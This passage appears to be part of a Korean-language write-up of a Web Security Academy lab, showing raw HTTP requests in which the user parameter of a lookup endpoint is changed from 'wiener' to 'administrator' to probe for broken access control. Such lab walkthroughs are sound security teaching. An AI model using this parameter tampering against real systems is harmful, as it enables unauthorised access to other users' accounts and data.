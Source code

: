 ```http
GET /user/lookup?user=wiener HTTP/2
Host: 0a2e00d903fd90de80edd04c00c60031.web-security-academy.net
Cookie: session=qFg7SGEbejL6Cn9LoVUTPqDqECnSQMWk
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2e00d903fd90de80edd04c00c60031.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


```

다음과 같은 응답이 돌아온다. email과 role을 확인할 수 있다. 

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 81

{
  "username": "wiener",
  "email": "wiener@normal-user.net",
  "role": "user"
}
```

이 요청을 Reapeter로 보내서 user파라메터를 administrator로 바꿔본다. 

```
GET /user/lookup?user=administrator HTTP/2
Host: 0a2e00d903fd90de80edd04c00c60031.web-security-academy.net
Cookie: session=qFg7SGEbejL6Cn9LoVUTPqDqECnSQMWk
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a2e00d903fd90de80edd04c00c60031.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


```
